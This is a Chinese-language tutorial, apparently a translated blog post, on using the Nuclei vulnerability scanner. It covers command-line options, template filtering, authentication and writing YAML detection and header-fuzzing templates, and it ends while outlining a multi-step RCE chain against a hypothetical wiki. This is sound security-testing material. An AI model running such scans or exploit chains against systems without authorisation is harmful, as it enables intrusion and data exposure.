# 使用Nuclei查找漏洞的终极指南

> 高效、可扩展、灵活的开源漏洞扫描工具。

## 介绍

Nuclei 是一款快速、高效且可扩展的漏洞扫描器。它可以在短短几分钟内扫描数千个主机。

Nuclei引擎使用基于YAML的模板来定义检测漏洞所需的步骤。作为一款开源工具，我们鼓励社区为模板库和代码库做出贡献。这意味着每当发布新的CVE时，人恶化人都可以创建一个Nuclei模板并发布，供安全社区使用。

这篇博客将探索Nuclei的许多功能和选项，包括自定义模板和工作流等强大功能。我们还将提供一些关于如何使用这些功能在实际目标中查找漏洞的指导。

## 模板

Nuclei模板是一个YAML文件。文件中的标记数据告诉Nuclei向主机发送什么，以及在主机响应中寻找什么，以确定它是否易受到某个特定问题的攻击。

Nuclei可以理解各种网络协议和服务，包括HTTP、DNS、SSL和原始TCP通信。我们首先介绍HTTP扫描的模板，因为Web服务是典型Nuclei用户的最常见目标，然后我们将看看如何开发自定义模板来扫描其他协议。

总之，Nuclei HTTP扫描模板将指定请求的详细信息，例如请求方法、路径和头信息；以及如何检查响应以指纹识别服务或确定是否存在漏洞的规则。

Nuclei引擎使用“模板聚合”来优化发送到目标的请求数量并减少网络流量。一个基本的例子是，如果一个扫描包含5个单独的模板，需要向路径`/login.php` 发出GET请求，那么它将发出一个GET请求，而不是向该URL发出5个单独的GET请求，然后5个单独的模板可以处理该请求的结果。

## 简单模式

Nuclei非常易于上手，无需阅读大量文档。安装完工具后，只需要运行以下命令（针对单个目标）：

```bash
nuclei -u https://my.target.site
```

或者，要扫描非HTTP（S）的网络服务，可以使用：

```bash
nuclei -u my.target.site:5759
```

或者，要扫描多个目标，可以使用：

```bash
nuclei -l /path/to/list-of-targets.txt
```

这些命令将使用Nuclei扫描数千个已知的漏洞，并枚举有关目标的信息。

Nuclei会选择选项来运行漏洞扫描并显示结果。默认情况下，它会针对制定目标运行几乎所有与所选服务相关的社区开发的模板。由于存在拒绝服务风险或因为它们是为模糊测试设计的，一些模板被禁用。但是，可以使用稍后描述的模板过滤选项显式选择它们。

## 将Nuclei与其他工具集成到工作流程中

Nuclei的设计初衷是集成到一个由多个工具组成的整体安全评估工作流程中。例如，你可以先进行子域名枚举，然后检查HTTP服务，并将结果管道化到Nuclei中，以扫描每个主机是否存在漏洞。

```bash
subfinder -d targetdomain.com -silent | httpx | nuclei -t technologies/tech-detect.yaml
```

可以参考ProjectDiscovery提供的 [其他工具](https://docs.projectdiscovery.io/tools/index?ref=blog.projectdiscovery.io) 的文档。

## 模板过滤

截至目前，社区开发的Nuclei模板库中已有近4000个模板。这些模板涵盖了已知CVE、常见误配置、暴露的敏感文件、技术栈指纹识别等方面的检测。

Nuclei提供了一些选项，可以更智能、更高效地扫描目标，而不是默认使用库中所有模板对指定主机进行“霰弹枪”式扫描。我们可以根据一些不同的标准选择性地过滤模板。让我们来看看这些选项。

**自动选择（-as）**

此选项尝试指纹识别目标使用的技术栈和组件，然后选择那些已标记有这些技术栈关键字的模板。例如：
```bash
nuclei -u https:// my.target.site -as
```



**仅使用新模板（-nt）**

此选项将仅使用上次更新后添加的模板（例如，通过运行`nuclei -update -templates` ）。例如：

```bash
nuclei -u https://my.target.site -nt
```

**按文件名指定模板（-t）**

此选项运行特定的单个模板。除了单个文件名，还可以提供一个包含模板文件名列表（每行一个）的文件作为参数。可以提供多个`-t` 参数。示例：

```bash
nuclei -u https://my.target.site -t file/logs/python-app-sql-exceptions.yaml -t exposures/files/pyproject-disclosure.yaml

```

```bash
user@kali:~/nuclei-templates$ cat templates-35.txt
file/logs/python-app-sql-exceptions.yaml
exposures/files/pyproject-disclosure.yaml
```

```bash
user@kali:~/nuclei-templates$ nuclei -u https://my.target.site -t templates-35.txt
```

**按文件夹指定模板（-t）**

此选项运行nuclei-templates文件夹下特定子文件夹中的所有模板。除了子文件夹，还可以提供一个包含文件夹列表（每行一个）的文件作为参数。可以提供多个`-t` 参数。示例：

```bash
nuclei -u https://my.target.site -t file/logs -t exposures/files -t cves/2021
```

```bash
user@kali:~/nuclei-templates$ cat template-categories.txt
file/logs
exposures/files
cves/2021
```

```bash
user@kali:~/nuclei-templates$ nuclei -u https://my.target.site -t template-categories.txt
```

**按标签选择模板（-tags）**

此选项将使用已标记为指定值的模板。模板可以按技术栈或适用的应用程序或服务进行标记。示例：

```bash
nuclei -u https://jira.targetdomain.site -tags jira,generic
```

**按严重性选择模板(-s)**

此选项将仅适用于元数据中具有指定严重性的模板。

```bash
nuclei -u https://jira.targetdomain.site -s critical,high,medium,low,info
```

## 速率限制

Nuclei提供了许多选项来限制扫描引擎向目标发送请求的速率。这些选项可以防止中断目标的可用性，或在我们的主机和目标之间存在带宽问题时提供保护。这些选项允许限制发送的请求数量（默认为每秒150个）以及同时执行的模板数量（默认为25个）。示例（将传出请求限制为每秒3个，并且仅同时执行2个模板）：

```bash
nuclei -u https://my.target.site/ -rl 3 -c 2
```

还可以使用`-rlm <int>` 选项以每分钟请求数的形式指定速率限制。

## 优化

Nuclei提供了许多其他选项，可以调整以缩短扫描完成时间，或允许在网络连接不可靠的情况下进行扫描。

**超时时长（-timeout）**

我们可以使用此选项设置连接尝试超时的时间。默认值为5秒，但是如果我们正在扫描许多主机，可能希望缩短完成扫描的时间。示例：
```bash
nuclei -l list-of-targets.txt -timeout 1
```

**重试次数（-retries）**

默认情况下，Nuclei不会重试失败的连接尝试。使用重试选项，我们可以设置重试次数。示例：

```bash
nuclei -l list-of-targets.txt -retries 3
```

**最大错误数（-mhe）**

Nuclei默认设置在发生30个错误时放弃扫描主机。我们可以使用最大错误选项来增加或减少这个数字。示例：

```bash
nuclei -l list-of-targets.txt -mhe 3
```

## 恢复扫描

Nuclei提供了恢复已停止扫描的功能，这样如果由于某种原因终端扫描，你就不必重新开始。在按下Ctrl+C推出正在运行的扫描后，工具将创建一个恢复文件并在控制台输出中打印路径：



你可以使用类似以下命令从上次请求处恢复扫描：

```bash
nuclei -l targets-file.txt -resume /path/to/resume-file.cfg
```

## 自定义头部和模板变量

到目前为止，我们演示的扫描都是未经身份验证的。有时，你可能需要对需要凭证的服务进行漏洞扫描，例如通过HTTP基本认证或客户端证书。身份验证信息和其他参数可能需要传递给模板。

Nuclei的配置选项允许以各种方式向模板提供变量和自定义头部。

**Cookie或请求头部(-H)**

如果目标的身份验证必须通过cookie或HTTP请求头部发送，可以使用`-H` 选项，其中头部指定为以冒号分隔的"header_name:header_value"对，如下例所示：

```bash
nuclei -u https://api.target.site -tags php,apache -H “Cookie:sc_=BPGFJcNgMwfePZBeJqoC838j8Mv4”
```

**模板变量（-V）**

模板可能需要传递包含身份验证信息的变量。要向模板传递键值对，请使用`-V` 选项，如下例所示：

**环境变量（-ev）**

模板可能需要传递包含身份验证信息的环境变量。要向模板传递环境变量，请使用`-ev` 选项，如下例所示：

接受环境变量的模板可能看起来像这样：

```yaml
requests:
  - method: POST
    path:
      - "{{BaseURL}}/apps"

    body: username={{N_USER}}&password={{N_PASS}}
```

如果设置了-ev选项，Nuclei将向模板传递环境变量。

**客户端证书认证（-cc）**

扫描主机上的某些服务可能需要客户端证书进行身份验证。证书应为PEM编码格式，可以使用-cc选项提供。例如：

```bash
nuclei -u https://api.target.site -cc /path/to/client-cert.pem
```

与客户端证书认证相关的其他选项式`-ck`和`-ca`开关，它们允许你提供PEM编码的私钥和证书颁发机构（CA）文件以用于对主机的身份验证。

## 易用模式的局限性

Nuclei的默认“开箱即用”模式就像按下“黑盒攻击”按钮，让你坐下来让工具自动扫描你的目标。但是，如果你是一名漏洞赏金猎人，这可能对你的结果不是很好。很多人使用Nuclei的默认设置，这使得你很有可能只得到与其它对选定目标运行过该工具的人相同的结果。

为了发挥Nuclei的真正潜力，我们需要使用自定义模板和工作流程。我们该如何做到这一点？继续阅读以找出答案！

我们将要看到Nuclei的下一个强大功能式自定义模板，它指示Nuclei如何实际查找漏洞。

## 自定义模板

虽然有数千个社区开发的模板可用，但任何想要成为Nuclei高级用户的人应该学习如恶化编写自定义模板。以下是一些你可能想要开发自定义模板的场景：

- 发现了一个新的CVE，你阅读了说明，其中演示了一个简单的POC，而且还没有人编写过Nuclei模板。
- 你自己发现了一个0day漏洞，并希望允许其它人扫描主机以查找是否存在该问题。
- 你发现了一种新颖的攻击向量和有效载荷，它适用于一个目标（例如，由于某个库或框架组件中的编码模式），并且你想调查相同的问题是否影响使用类似模式的其他库和应用程序。

在接下来的几节中，我们将深入探讨如何编写模板并使用各种模板引擎功能。

除了Nuclei、OrojectDiscovery还在开发ProjectDsicovery云平台，该平台为自定义模板提供了高级支持，包括一个模板编辑器，它提供了一个云托管工具，具有许多有助于创建、测试和共享自定义模板的功能。

## 自定义模板的基础知识

模板需要包含一些基本信息，可以概括为：

- 模板ID
- 模板信息
- 发送到远程主机的数据
- 如何分析响应的指令

让我们看一个包含所有这些信息的简单模板的完整示例：

```yaml
id: htpasswd

info:
  name: Detect exposed .htpasswd files
  author: geeknik
  severity: info
  tags: config,exposure

requests:
  - method: GET
    path:
      - "{{BaseURL}}/.htpasswd"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - ":{SHA}"
          - ":$apr1$"
          - ":$2y$"
        condition: or

      - type: status
        status:
          - 200
```

我们将详细地研究模板定义的各个部分，但目前，你只需要知道模板的基本目的是告诉Nuclei发送什么请求，以及在响应中寻找什么。

我们可以用一个简单的Web模糊测试器作为例子来说明模板的基本组成部分。

## 模糊测试

模糊测试是一种测试技术，它向软件应用程序发送意外的、随机的或故意格式错误的数据。这种技术是安全测试中不可或缺的一部分，采用“黑盒”方法，即不知道应用程序的内部细节。

Nuclei模板提供了自动化模糊测试的能力。基本上，我们创建一个模板来定义基础请求，注入模糊负载的位置以及如何检查响应以寻找可能的漏洞迹象。

## 简单的漏洞检测

假设你看到一篇关于“x-debug”HTTP请求头的有趣研究文章，这让你开始思考互联网上的应用程序和框架中是否潜藏着一些类似的有趣未记录的头部。

你可以使用Nuclei对Web服务进行模糊测试，通过使用包含大量有效负载的单词列表对请求头部进行模糊测试，并分析响应以检测异常。

在添加一些必要的模板信息后，它开始是这样的：
```yaml
id: my-test-nuclei-template

info:
  name: X Debug header fuzzing
  author: me
  severity: info
  description: Discover x-*-debug request headers

# TODO: what data to send to the remote host
# TODO: instructions on how to analyze the response
```

我们需要向模板添加更多的数据，以告诉Nuclei发送什么以及如何分析。在旨在扫描HTTP服务的模板中，我们使用“request”字段来指示Nuclei向目标发送什么。

## 请求

“Request”字段告诉Nuclei要向远程主机发送那种类型的HTTP请求。模板引擎允许指定常见的HTTP方法，如Get、POST、PUT等，还允许使用“raw”模式，在这种模式下，我们可以完全控制请求的各个部分。我们稍后会详细介绍raw模式，但它提供了使用Nucllei模板的一些更高级功能的能力。对于我们的模糊测试实例，我们将使用raw模式。

request字段是一个数组结构，因此可以根据需要发送多个请求，但是在这个示例中我们只需要发送一个请求。我们的模板需要添加以下内容：
```yaml
requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        X-{{fuzz}}-debug: 1

	redirects: true
	attack: batteringram
	payloads:
	  fuzz: /var/tmp/fuzz.txt
```

模板引擎使用双大括号表达式（如`{{some_expression}}` ）来定义请求的动态部分。它提供了一些全局可用的URL相关变量，例如`{{Hostname}}`、`{{Scheme}}`、`{{BaseURL}}`等。完整的列表可以在[官方模板指南](https://nuclei.projectdiscovery.io/templating-guide/protocols/http/?ref=blog.projectdiscovery.io)中找到。

我们已经使用`{{fuzz}}` 定义了我们的模糊测试注入点。你可以使用任何允许的变量名来代替“fuzz”。实际替换请求中{{fuzz}}的有效载荷列表是从文件`/var/tmp/fuzz.txt` 中读取的，该文件应该每行包含一个有效载荷。

我们也可以在模板中内联包含有效载荷列表（如果列表不大），可以使用类似以下的内容。

```yaml
    payloads:
        fuzz:
           - abc
           - def
           - test
           - xyz
           - php
           - derp
```

"attack" 字段告诉Nuclei使用哪种模糊测试。可用的选项有`batteringram（默认）` 、`pitchfork` 和 `clusterbomb` 。由于这里只有一个注入点，所以只有`batteringram`模式才有意义。如果请求中有多个有效载荷注入点，则可以使用其他模式。

各种攻击模式的总结如下：

| 模式         | 描述                                                         |
| ------------ | ------------------------------------------------------------ |
| Batteringram | 使用一个有效载荷列表，迭代遍历每个有效载荷，并将同一个有效载荷注入到请求中定义的所有注入点。 |
| Pitchfork    | 为每个注入点使用一个单独的有效载荷列表，并并行遍历这些有效载荷列表。 |
| Clusterbomb  | 获取多个有效载荷列表，并将遍历每个列表中所有有效载荷的每种排列组合，并将其注入到每个注入点。 |

有关攻击模式的完整详细信息，请参阅官方模板指南中的HTTP模糊测试部分。

最后，`redirect`字段告诉Nuclei跟随任何HTTP重定向。

## 匹配器

我们已经告诉Nuclei如何向目标发送请求，现在我们需要告诉它如何分析主机返回的HTTP响应，以查找应用程序行为中的漏洞或异常。为此，我们需要将一个匹配器与请求关联起来。匹配器是一种可以使用多种技术来检查主机响应并将其元素与我们定义的值进行比较的功能。

在这个示例应用程序中，我们可以通过检查对应用程序的基线请求来获取有关预期响应的一些信息：


在这个示例应用程序中，我们可以通过检查对应用程序的基线请求来获取有关预期响应的一些信息。

从上面的截图中的请求/响应可以看出，根据响应的Content-Length头部，我们知道应用程序的预期响应包含一个大小为109字节的主体。

如果我们受到一个响应主体大于109字节的响应，则编写匹配器规则来标记该响应。

对于我们的模板，我们将使用DSL（领域特定语言）匹配器，它允许我们使用Nuclei的表达式语言来检查诸如响应主体长度之类的东西：
```yaml
    stop-at-first-match: false
    matchers:
      - type: dsl
        dsl:
          - "len(body) > 109"

```

上面的模板语言告诉Nuclei即使我们得到一个匹配的响应也要继续，这是通过`stop-at-first-match` 选项实现的。`matchers`字段是一个数组结构，允许使用多个匹配器。在本例中，我们只使用了一个“dsl”类型的匹配器。该表达式将标记任何响应主体大小大于109字节的响应。

最终的模板看起来像这样：

```yaml
id: my-test-nuclei-template
info:
    name: X Debug header fuzzing
    author: me
    severity: info
    description: Discover x-*-debug request headers
    
requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        x-{{fuzz}}-debug: 1

    payloads:
        fuzz: /var/tmp/fuzz.txt
    attack: batteringram
 
    redirects: true
    stop-at-first-match: false
    matchers:
      - type: dsl
        dsl:
          - "len(body) > 109"

```

所以现在我们可以使用我们的模糊测试有效载荷列表对我们的目标运行自定义模板。



扫描检测出到一个"php"的有效载荷产生了匹配器标记的响应。这意味着“x-php-debug:1”的头部值导致主机返回了一个异常响应（大于109字节）。我们可以手动向主机发送包含此头部的请求并检查实际响应以查看返回了什么，并注意响应被标记是因为内容长度为3023字节：


我们可以看到，我们确实发现了一个非标准的HTTP头部，看起来它导致应用程序泄露了一些有趣的信息。

现在，我们可能想编写另一个模板来检测其他目标上理解这个特定的"x-php-debug"头部的应用程序，并于其它人共享。

让我们创建一个检查另一个简单的自定义模板，以演示更多的请求和匹配项选项。完整的模板如下所示：

```yaml
id: x-php-debug

info:
    name: x-php-debug header info disclosure
    author: me
    severity: medium
    description: Detect x-php-debug request header information leak vulnerability
    
requests:
  - method: GET
    path: 
      - "{{BaseURL}}"
    headers:
      x-php-debug: 1
    redirects: true
    max-redirects: 3

    matchers:
      - type: word
        words:
          - "Array"
          - "[HTTP_AUTHORIZATION]"

```

这次，我们只是使用了基本的HTTP GET请求，而不是raw模式。我们为请求数据指定了几个属性，包括HTTP方法、路径和任何请求头。在这种情况下，我们在“headers”字段中添加了我们的“x-php-debug”头部。

对于匹配器类型，这次我们使用了一个“word”匹配器，它简单地扫描响应中是否存在提供的字符串值（单词）“Array”和“[HTTP_AUTHORIZATION]”，如果响应泄露了PHP环境信息，我们期望它们存在。

将我们的模板针对一个目标进行测试，我么可以看到它起作用了，检测到了信息泄露漏洞：



到目前为止，这些都是相当简单的模板示例。然而，作为一个没有经验的模板创建者，我们在学习开发模板时可能会在模板语法或结构上犯一些错误。为了帮助我们排查任何错误，我们可以使用Nuclei的调试功能，我们将在下面进行介绍。

## 调试

Nuclei提供了一套有用的功能来开发自定义模板，那就是调试选项。这些选项允许我们在模板行为不符合预期或导致错误时进行故障排除。

**验证（-validate）**

validate选项将加载模板并验证语法是否正确，显示检测到的任何问题。在我们创建的模板上运行这个验证是一个好主意，可以快速检测任何语法错误。为了演示，让我们修改之前创建的HTTP模糊测试模板，在第24行引入一个故意的拼写错误，将“dsl”替换为“ds”，这是一个不存在的关键字。



Nuclei的模板验证将标记处错误，并指定为24行为错误位置：


一旦我们修复了语法错误再次运行验证，Nuclei应该会通知我们验证成功：


**详细输出（-verbose | -v）**

除了正常的输出之外，这个选项还会打印模板可能生成的任何详细输出。例如：
```bash
nuclei -l targets.txt -t my-template.yaml -v
```

**调试（-debug）**

如果需要比详细输出选项提供更多的细节，-debug开关将打印模板发出的所有请求和响应。这对于分析任何变量或辅助函数的使用、请求的顺序以及匹配器是否正常工作非常有用。例如：
```bash
nuclei -l targets.txt -t my-template.yaml -debug
```

**代理（-p）**

如果你更喜欢使用BurpSuite或OWASP Zap之类的工具来检查模板关联的请求和响应，而不是阅读控制台输出，你可以使用-p选项指定代理监听URL。例如，如果Zap在本地主机端口耨8080上监听，并且我们希望通过它代理请求和响应，则：
```bash
nuclei -l targets.txt -t my-template.yaml -p http://127.0.0.1:8080
```

## 高级特性

到目前为止，我们创建的模板示例都只使用了单个请求并分析了主机对应的响应。有些漏洞需要多个步骤，例如，可能涉及从一个页面提取令牌，然后在请求另一个页面时使用令牌。

为了演示Nuclei的一些高级的模板特性，我们将逐步介绍一个假设的Web应用程序，该应用程序存在远程代码执行漏洞，但需要有效的认证会话和CSRF令牌才能随请求发送。漏洞利用需要多个步骤。

1. 加载登录页面并检查应用程序是否是MM Wiki（Get/）
2. 自注册一个新账户（POST/register.php）
3. 使用创建的账户凭证登录并创建一个认证会话（POST /login.php）
4. 加载数据库备份表单并提取CSRF令牌（GET /backup_db.php）
5. 提交一个请求以创建数据库备份，其中包括漏洞利用有效载荷和CSRF令牌（POST /backup_db.php）

为了生成这一系列请求，我们需要更详细地套路了你DSL匹配器和辅助函数，并研究一些额外的模板特性，包括提取器、请求条件和cookie重用。需要注意的是，这些特性仅在原始请求模式下支持，不支持其他HTTP模式。

## DSL和匹配器的辅助函数

为了实现我们请求链的第一步，我们需要告诉Nuclei如何请求根页面并检测一个合适的指纹来识别它是否是MM Wiki。

根页面看起来像这样：


如果我们检查MM Wiki根页面的HTML响应，可以看到一个用来识别应用程序的版本字符串。它是一个注释字符串`<!-- MM Wiki Version x.x.x-->`:



我们将使用DSL类型的匹配器来识别MM Wiki应用程序。DSL匹配器允许我们使用辅助函数。我们的模板以以下数据开始：
```yaml
requests:
  - raw:
    - |
      GET {{Path}} HTTP/1.1
      Host: {{Hostname}}

    matchers:
      - type: dsl
        dsl:
          - "contains(body,'MM Wiki Version')"
```

匹配器中的“contains（）”函数是一个辅助函数。我们也可以使用简单的“word”匹配器而不是DSL，但是我们选择使用DSL，因为它允许我们使用请求条件，这是我们稍后会用到的一种Nuclei特性。Nuclei模板引擎提供了大量的辅助函数来帮助匹配。更详细的参考参见[此处](https://nuclei.projectdiscovery.io/templating-guide/helper-functions/?ref=blog.projectdiscovery.io)，但以下是一些用于编写匹配器的有用函数：

| 辅助函数                                    | 示例                              | 描述                                   |
| ------------------------------------------- | --------------------------------- | -------------------------------------- |
| contains(input, substring interface{}) bool | contains(body, “login succeeded”) | 验证一个字符串是否包含一个子字符串     |
| len(arg interface{}) int                    | len(body)                         | 返回输入的长度                         |
| regex(pattern, input string) bool           | regex("file-([a-z0-9]+)", body)   | 测试给定的正则表达式是否匹配输入字符串 |

**链接多个原始请求**

第一个请求已经编写完成，现在我们需要告诉Nuclei如何发出剩余的4个请求。

下一个请求将涉及提交MM Wiki账户注册表单以创建一个新的登录。登录表单如下：
